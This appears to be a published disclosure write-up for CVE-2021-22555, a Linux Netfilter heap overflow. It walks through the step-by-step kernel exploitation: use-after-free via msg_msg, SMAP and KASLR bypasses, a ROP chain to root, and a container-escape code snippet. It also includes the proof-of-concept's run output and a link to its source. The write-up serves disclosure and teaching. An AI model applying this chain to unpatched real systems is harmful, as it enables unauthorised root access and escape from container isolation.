




# CVE-2021-22555: Turning \x00\x00 into 10000$

<p align='right'>Andy Nguyen (theflow@) - Information Security Engineer</p>

CVE-2021-22555 is a 15 years old heap out-of-bounds write vulnerability in Linux Netfilter that is powerful enough to bypass all modern security mitigations and achieve kernel code execution. It was used to break the kubernetes pod isolation of the [kCTF cluster](https://google.github.io/kctf/vrp.html) and won 10000$ for charity (where Google will match and double the donation to 20000$).

<p align="center"></p>

## Table of Contents

- [Introduction](#introduction)
- [Vulnerability](#vulnerability)
- [Exploitation](#exploitation)
  * [Exploring struct msg_msg](#exploring-struct-msg_msg)
  * [Achieving use-after-free](#achieving-use-after-free)
  * [Bypassing SMAP](#bypassing-smap)
  * [Achieving a better use-after-free](#achieving-a-better-use-after-free)
  * [Finding a victim object](#finding-a-victim-object)
  * [Bypassing KASLR/SMEP](#bypassing-kaslrsmep)
  * [Escalating privileges](#escalating-privileges)
    + [Kernel ROP chain](#kernel-rop-chain)
    + [Escaping the container and popping a root shell](#escaping-the-container-and-popping-a-root-shell)
- [Proof-Of-Concept](#proof-of-concept)
- [Timeline](#timeline)
- [Thanks](#thanks)

## Introduction

After [BleedingTooth](https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html), which was the first time I looked into Linux, I wanted to find a privilege escalation vulnerability as well. I started by looking at old vulnerabilities like CVE-2016-3134 and CVE-2016-4997 which inspired me to grep for `memcpy()` and `memset()` in the Netfilter code. This led me to some buggy code.

## Vulnerability

When `IPT_SO_SET_REPLACE` or `IP6T_SO_SET_REPLACE` is called in compatibility mode, which requires the `CAP_NET_ADMIN` capability that can however be obtained in a user+network namespace, structures need to be converted from user to kernel as well as 32bit to 64bit in order to be processed by the native functions. Naturally, this is destined to be error prone. Our vulnerability is in `xt_compat_target_from_user()` where `memset()` is called with an offset `target->targetsize` that is not accounted for during the allocation - leading to a few bytes written out-of-bounds:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/net/netfilter/x_tables.c
void xt_compat_target_from_user(struct xt_entry_target *t, void **dstptr,
				unsigned int *size)
{
	const struct xt_target *target = t->u.kernel.target;
	struct compat_xt_entry_target *ct = (struct compat_xt_entry_target *)t;
	int pad, off = xt_compat_target_offset(target);
	u_int16_t tsize = ct->u.user.target_size;
	char name[sizeof(t->u.user.name)];

	t = *dstptr;
	memcpy(t, ct, sizeof(*ct));
	if (target->compat_from_user)
		target->compat_from_user(t->data, ct->data);
	else
		memcpy(t->data, ct->data, tsize - sizeof(*ct));
	pad = XT_ALIGN(target->targetsize) - target->targetsize;
	if (pad > 0)
		memset(t->data + target->targetsize, 0, pad);

	tsize += off;
	t->u.user.target_size = tsize;
	strlcpy(name, target->name, sizeof(name));
	module_put(target->me);
	strncpy(t->u.user.name, name, sizeof(t->u.user.name));

	*size += off;
	*dstptr += tsize;
}
```

The `targetsize` is not controllable by the user, but one can choose different targets with different structure sizes by name (like `TCPMSS`, `TTL` or `NFQUEUE`). The bigger `targetsize` is, the more we can vary in the offset. Though, the target size must *not* be 8 bytes aligned in order to fulfill `pad > 0`. The biggest possible I found is `NFLOG` for which we can choose an offset up to 0x4C bytes out-of-bounds (one can influence the offset by adding padding between `struct xt_entry_match` and `struct xt_entry_target`):

```c
struct xt_nflog_info {
	/* 'len' will be used iff you set XT_NFLOG_F_COPY_LEN in flags */
	__u32	len;
	__u16	group;
	__u16	threshold;
	__u16	flags;
	__u16	pad;
	char		prefix[64];
};
```

Note that the destination of the buffer is allocated with `GFP_KERNEL_ACCOUNT` and can also vary in the size:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/net/netfilter/x_tables.c
struct xt_table_info *xt_alloc_table_info(unsigned int size)
{
	struct xt_table_info *info = NULL;
	size_t sz = sizeof(*info) + size;

	if (sz < sizeof(*info) || sz >= XT_MAX_TABLE_SIZE)
		return NULL;

	info = kvmalloc(sz, GFP_KERNEL_ACCOUNT);
	if (!info)
		return NULL;

	memset(info, 0, sizeof(*info));
	info->size = size;
	return info;
}
```

Though, the minimum size is > 0x100 which means that the smallest slab this object can be allocated in is kmalloc-512. In other words, we have to find victims which are allocated between kmalloc-512 and kmalloc-8192 to exploit.

## Exploitation

Our primitive is limited to writing four bytes of zero up to 0x4C bytes out-of-bounds. With such a primitive, usual targets are:

- Reference counter
  - Unfortunately, I could not find any suitable objects with a reference counter in the first 0x4C bytes.
- Free list pointer
  - [CVE-2016-6187: Exploiting Linux kernel heap off-by-one](https://duasynt.com/blog/cve-2016-6187-heap-off-by-one-exploit) is a good example on how to exploit the free list pointer. However, this was already 5 years ago, and meanwhile, kernels have the `CONFIG_SLAB_FREELIST_HARDENED` option enabled which among other things protects free list pointers.
- Pointer in a struct
  - This is the most promising approach, however four bytes of zero is too much to write. For example, a pointer 0xffff91a49cb7f000 could only be turned to 0xffff91a400000000 or 0x9cb7f000, where both of them would likely be invalid pointers. On the other hand, if we used the primitive to write at the very beginning of the adjacent block, we could write less bytes, e.g. 2 bytes, and for example turn a pointer from 0xffff91a49cb7f000 to 0xffff91a49cb70000.

Playing around with some victim objects, I noticed that I could never reliably allocate them around `struct xt_table_info` on kernel 5.4. I realized that it had something to do with the `GFP_KERNEL_ACCOUNT` flag, as other objects allocated with `GFP_KERNEL_ACCOUNT` did not have this issue. Jann Horn confirmed that before 5.9, separate slabs were used to implement *accounting*. Therefore, every heap primitive we use in the exploit chain should also use `GFP_KERNEL_ACCOUNT`.

The syscall `msgsnd()` is a well known primitive for heap spraying (which uses `GFP_KERNEL_ACCOUNT`) and has been utilized for multiple public exploits already. Though, its structure `msg_msg` has surprisingly never been abused. In this write-up, we will demonstrate how this data-structure can be abused to gain a use-after-free primitive which in turn can be used to leak addresses and fake other objects. Coincidentally, in parallel to my research in March 2021, Alexander Popov also explored the very same structure in [Four Bytes of Power: exploiting CVE-2021-26708 in the Linux kernel](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html).

### Exploring struct msg_msg

When sending data with `msgsnd()`, the payload is split into multiple segments:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/ipc/msgutil.c
static struct msg_msg *alloc_msg(size_t len)
{
	struct msg_msg *msg;
	struct msg_msgseg **pseg;
	size_t alen;

	alen = min(len, DATALEN_MSG);
	msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
	if (msg == NULL)
		return NULL;

	msg->next = NULL;
	msg->security = NULL;

	len -= alen;
	pseg = &msg->next;
	while (len > 0) {
		struct msg_msgseg *seg;

		cond_resched();

		alen = min(len, DATALEN_SEG);
		seg = kmalloc(sizeof(*seg) + alen, GFP_KERNEL_ACCOUNT);
		if (seg == NULL)
			goto out_err;
		*pseg = seg;
		seg->next = NULL;
		pseg = &seg->next;
		len -= alen;
	}

	return msg;

out_err:
	free_msg(msg);
	return NULL;
}
```

where the headers for `struct msg_msg` and `struct msg_msgseg` are:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/linux/msg.h
/* one msg_msg structure for each message */
struct msg_msg {
	struct list_head m_list;
	long m_type;
	size_t m_ts;		/* message text size */
	struct msg_msgseg *next;
	void *security;
	/* the actual message follows immediately */
};

// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/linux/types.h
struct list_head {
	struct list_head *next, *prev;
};

// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/ipc/msgutil.c
struct msg_msgseg {
	struct msg_msgseg *next;
	/* the next part of the message follows immediately */
};
```

The first member in `struct msg_msg` is the `mlist.next` pointer which is pointing to another message in the queue (which is different from `next` as this is a pointer to the next segment). This is a perfect candidate to corrupt as you will learn next.

### Achieving use-after-free

First, we initialize a lot of message queues (in our case 4096) using `msgget()`. Then, we send one message of size 4096 (including the `struct msg_msg` header) for each of the message queues using `msgsnd()`, which we will call the **primary message**. Eventually, after a lot of messages, we have some that are consecutive:

<p align="center"></p>

[Figure 1: A series of blocks of **primary messages**]

Next, we send a **secondary message** of size 1024 for each of the message queues using `msgsnd()`:

<p align="center"></p>

[Figure 2: A series of blocks of **primary messages** pointing to **secondary messages**]

Finally, we create some holes (in our case every 1024th) in the **primary messages**, and trigger the vulnerable `setsockopt(IPT_SO_SET_REPLACE)` option, which, in the best scenario, will allocate the `struct xt_table_info` object in one of the holes:

<p align="center"></p>

[Figure 3: A `xt_table_info` allocated in between the blocks which corrupts the next pointer]

We choose to overwrite two bytes of the adjacent object with zeros. Assume we are adjacent to another **primary message**, these bytes we overwrite are part of the pointer to the **secondary message**. Since we allocate them with a size of 1024 bytes, we therefore have a 1 - (1024 / 65536) chance to redirect the pointer (the only case we fail is when the two least significant bytes of the pointer are already zero).

Now, the best scenario we can hope for is that the manipulated pointer *also* points to a **secondary message**, since the consequence will be two different **primary messages** pointing to the same **secondary message**, and this can lead to a use-after-free:

<p align="center"></p>

[Figure 4: Two **primary messages** pointing to the same **secondary message** due to the corrupted pointer]

However, how do we know which two **primary messages** are pointing to the same **secondary message**? In order to answer this question, we tag every (primary and secondary) message with the index of the message queue which is in [0, 4096). Then, after triggering the corruption, we iterate through all message queues, peek at all messages using `msgrcv()` with `MSG_COPY` and see if they are the same. If the tag of the **primary message** is different from the **secondary message**, it means that it has been redirected. In which case the tag of the **primary message** represents the index of the *fake message queue*, i.e. the one containing the wrong **secondary message**, and the tag of the wrong **secondary message** represents the index of the *real message queue*. Knowing these two indices, achieving a use-after-free is now trivial - we namely fetch the **secondary message** from the *real message queue* using `msgrcv()` and as such free it:

<p align="center"></p>

[Figure 5: Freed **secondary message** with a stale reference]

Note that we still have a reference to the freed message in the *fake message queue*.

### Bypassing SMAP

Using unix sockets (which can be easily set up with `socketpair()`), we now spray a lot of messages of size 1024 and imitate the `struct msg_msg` header. Ideally, we are able to reclaim the address of the previously freed message:

<p align="center"></p>

[Figure 6: Fake `struct msg_msg` put in place of the freed **secondary message**]

Note that `mlist.next` is 41414141 as we do not yet know any kernel addresses (when SMAP is enabled, we cannot specify a user address). Not having a kernel address is crucial as it actually prevents us from freeing the block again (you will learn later why that is desired). The reason is that during `msgrcv()`, the message is unlinked from the message queue that is a circular list. Luckily, we are actually in a good position to achieve an information leak, as there are some interesting fields in `struct msg_msg`. Namely, the field `m_ts` is used to determine how much data to return to userland:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/ipc/msgutil.c
struct msg_msg *copy_msg(struct msg_msg *src, struct msg_msg *dst)
{
	struct msg_msgseg *dst_pseg, *src_pseg;
	size_t len = src->m_ts;
	size_t alen;

	if (src->m_ts > dst->m_ts)
		return ERR_PTR(-EINVAL);

	alen = min(len, DATALEN_MSG);
	memcpy(dst + 1, src + 1, alen);

	...
	return dst;
}
```

The original size of the message is only `1024-sizeof(struct msg_msg)` bytes which we can now artificially increase to `DATALEN_MSG=4096-sizeof(struct msg_msg)`. As a consequence, we will now be able to read past the intended message size and leak the `struct msg_msg` header of the adjacent message. As said before, the message queue is implemented as a circular list, thus, `mlist.next` points back to the **primary message**.

Knowing the address of a **primary message**, we can re-craft the fake `struct msg_msg` with that address as `next` (meaning that it is the next segment). The content of the **primary message** can then be leaked by reading more than `DATALEN_MSG` bytes. The leaked `mlist.next` pointer from the **primary message** reveals the address of the **secondary message** that is adjacent to our fake `struct msg_msg`. Subtracting 1024 from that address, we finally have the address of the fake message.

### Achieving a better use-after-free

Now, we can rebuild the fake `struct msg_msg` object with the leaked address as `mlist.next` and `mlist.prev` (meaning that it is pointing to itself), making the fake message free-able with the *fake message queue*.

<p align="center"></p>

[Figure 7: Fake `struct msg_msg` with a valid next pointer pointing to itself]

Note that when spraying using unix sockets, we actually have a `struct sk_buff` object which points to the fake message. Obviously, this means that when we free the fake message, we still have a stale reference:

<p align="center"></p>

[Figure 8: Freed fake message with a stale reference]

This stale `struct sk_buff` data buffer is a better use-after-free scenario to exploit, because it does not contain header information, meaning that we can now use it to free *any* kind of object on the slab. In comparison, freeing a `struct msg_msg` object is only possible if the first two members are writable pointers (needed to unlink the message).

### Finding a victim object

The best victim to attack is one that has a function pointer in its structure. Remember that the victim must also be allocated with `GFP_KERNEL_ACCOUNT`.

Talking to Jann Horn, he suggested the `struct pipe_buffer` object which is allocated in kmalloc-1024 (hence why the **secondary message** is 1024 bytes). The `struct pipe_buffer` can be easily allocated with `pipe()` that has `alloc_pipe_info()` as a subroutine:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/fs/pipe.c
struct pipe_inode_info *alloc_pipe_info(void)
{
	...
	unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
	...
	pipe = kzalloc(sizeof(struct pipe_inode_info), GFP_KERNEL_ACCOUNT);
	if (pipe == NULL)
		goto out_free_uid;
	...
	pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
	...
}
```

While it does not contain a function pointer directly, it contains a pointer to `struct pipe_buf_operations` that on the other hand has function pointers:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/linux/pipe_fs_i.h
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};

struct pipe_buf_operations {
	...
	/*
	 * When the contents of this pipe buffer has been completely
	 * consumed by a reader, ->release() is called.
	 */
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
	...
};
```

### Bypassing KASLR/SMEP

When one writes to the pipes, `struct pipe_buffer` is populated. Most importantly, `ops` will point to the static structure `anon_pipe_buf_ops` which resides in the .data segment:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/fs/pipe.c
static const struct pipe_buf_operations anon_pipe_buf_ops = {
	.release	= anon_pipe_buf_release,
	.try_steal	= anon_pipe_buf_try_steal,
	.get		= generic_pipe_buf_get,
};
```

Since the difference between the .data segment and the .text segment is always the same, having `anon_pipe_buf_ops` basically allows us to calculate the kernel base address.

We spray a lot of `struct pipe_buffer` objects and reclaim the location of the stale `struct sk_buff` data buffer:

<p align="center"></p>

[Figure 9: Freed fake message reclaimed with a `struct pipe_buffer`]

As we still have a reference from the `struct sk_buff`, we can read its data buffer, leak the content of `struct pipe_buffer` and reveal the address of `anon_pipe_buf_ops`:

```sh
[+] anon_pipe_buf_ops: ffffffffa1e78380
[+] kbase_addr: ffffffffa0e00000
```

With this information, we can now find JOP/ROP gadgets. Note that when reading from the unix socket, we actually free its buffer as well:

<p align="center"></p>

[Figure 10: Freed fake message reclaimed with a `struct pipe_buffer`]

### Escalating privileges

We reclaim the stale `struct pipe_buffer` with a fake one with `ops` pointing to a fake `struct pipe_buf_operations`. This fake structure is planted at the same location since we know its address, and obviously, this structure should contain a malicious function pointer as `release`.

<p align="center"></p>

[Figure 11: Freed `struct pipe_buffer` reclaimed with a fake `struct pipe_buffer`]

The final stage of the exploit is to close all pipes in order to trigger the release which in turn will kick off the JOP chain. Finding JOP gadgets is hard, thus the goal is to achieve a kernel stack pivot as soon as possible in order to execute a kernel ROP chain.

#### Kernel ROP chain

We save the value of RBP at some scratchpad address in kernel so that we can later resume the execution, then we call `commit_creds(prepare_kernel_cred(NULL))` to install kernel credentials and finally we call `switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)` to switch the namespace of process 1 to the one of the *init* process. After that, we restore the value of RBP and return to resume the execution (which will immediately make `free_pipe_info()` return).

#### Escaping the container and popping a root shell

Arriving back in userland, we now have root permissions to change mnt, pid and net namespaces to escape the container and break out of the kubernetes pod. Ultimately, we pop a root shell.

```c
  setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
  setns(open("/proc/1/ns/pid", O_RDONLY), 0);
  setns(open("/proc/1/ns/net", O_RDONLY), 0);

  char *args[] = {"/bin/bash", "-i", NULL};
  execve(args[0], args, NULL);
```

## Proof-Of-Concept

The Proof-Of-Concept is available at [https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555).

Executing it on a vulnerable machine will grant you root:

```sh
theflow@theflow:~$ gcc -m32 -static -o exploit exploit.c
theflow@theflow:~$ ./exploit
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: ffc
[+] real_idx: fc4

[+] STAGE 2: SMAP bypass
[*] Freeing real secondary message...
[*] Spraying fake secondary messages...
[*] Leaking adjacent secondary message...
[+] kheap_addr: ffff91a49cb7f000
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Leaking primary message...
[+] kheap_addr: ffff91a49c7a0000

[+] STAGE 3: KASLR bypass
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Freeing sk_buff data buffer...
[*] Spraying pipe_buffer objects...
[*] Leaking and freeing pipe_buffer object...
[+] anon_pipe_buf_ops: ffffffffa1e78380
[+] kbase_addr: ffffffffa0e00000

[+] STAGE 4: Kernel code execution
[*] Spraying fake pipe_buffer objects...
[*] Releasing pipe_buffer objects...
[*] Checking for root...
[+] Root privileges gained.

[+] STAGE 5: Post-exploitation
[*] Escaping container...
[*] Cleaning up...
[*] Popping root shell...
root@theflow:/# id
uid=0(root) gid=0(root) groups=0(root)
root@theflow:/#
```

## Timeline

2021-04-06 - Vulnerability reported to security@kernel.org.  
2021-04-13 - Patch merged upstream.  
2021-07-07 - Public disclosure.

## Thanks

Eduardo Vela  
Francis Perron  
Jann Horn
